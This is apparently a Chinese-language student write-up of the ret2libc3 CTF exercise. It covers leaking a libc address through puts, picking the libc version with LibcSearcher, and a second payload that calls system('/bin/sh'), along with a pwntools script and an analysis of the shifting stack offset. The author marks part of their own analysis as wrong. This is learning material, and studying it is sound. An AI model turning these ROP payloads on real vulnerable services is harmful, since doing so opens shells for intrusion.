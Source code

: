 ```python
```

- 运行过程中会提示有多个libc满足当前约束。选择 7 - libc6_2.31-8_i386

```python
[+] There are multiple libc that meet current constraints :
0 - libc-2.32-1.1.i586
1 - libc6-x32_2.17-93ubuntu4_amd64
2 - libc6-x32_2.17-93ubuntu4_i386
3 - libc6_2.31-6_i386
4 - libc-2.32-4.1.i586
5 - libc6-i386_2.31-6_amd64
6 - libc6-i386_2.31-8_amd64
7 - libc6_2.31-8_i386  # 正确的libc # 选择方法：一个个试.......
8 - libc6_2.31-7_i386
9 - libc6-i386_2.31-9_amd64
[+] Choose one : 7
```



### Payload Analysis

为什么第一个payload中RA与字符串之前的偏移为112而第二个payload的为104（减少8bytes）？

```python
payload = flat(['A' * (108+4), puts_plt, main, libc_start_main_got])
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
```



！！！！！这里的分析有错误，ESP EBP都会改变

第一次payload中的112是在gets调用完后gdb分析出来的，但是main函数执行完后，`ret(pop EIP)`使得ESP+4，然后ret到`puts_plt`中，`puts`的`ret(pop EIP)`使得ESP再次+4，然后ret到`main`执行`main`（第二次执行），然后在溢出点`gets(s)`使用第二个payload。ESP总计+8，而根据IDA中gets调用时的汇编指令，gets的参数s的地址是依据ESP计算出来的，在第二次执行main时，由于ESP改变了，所以gets保存的s的地址也变了

```assembly
# IDA中gets调用时的汇编指令
.text:08048683  lea  eax, [esp+80h+s] ; Load Effective Address ; s的地址是由esp计算出来的
.text:08048687  mov  [esp], eax      ; s
.text:0804868A  call _gets
```





#### verify

- 使用如下脚本，将第一个payload的内容保存在`input`文件中。
- 疑问：使用hexdump显示的input文件与代码中输出的字节序有不同，具体原因未知

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher 
context.log_level = "DEBUG"
sh = process("./ret2libc3")

ret2libc3 = ELF("./ret2libc3")
puts_plt = ret2libc3.plt["puts"] 
libc_start_main_got = ret2libc3.got["__libc_start_main"] 
main = ret2libc3.symbols["main"] 

print("leak libc_start_main_got addr and ret to main", str(hex(puts_plt)), str(hex(main)), str(hex(libc_start_main_got)))
# puts_plt, main, libc_start_main_got: 0x08048460 0x08048618 0x0804a024
payload = flat(['A' * (108+4), puts_plt, main, libc_start_main_got])
print("payload: ", payload.hex(), type(payload)) # <class 'bytes'>
# ...... 41414141 60840408 18860408 24a00408 
```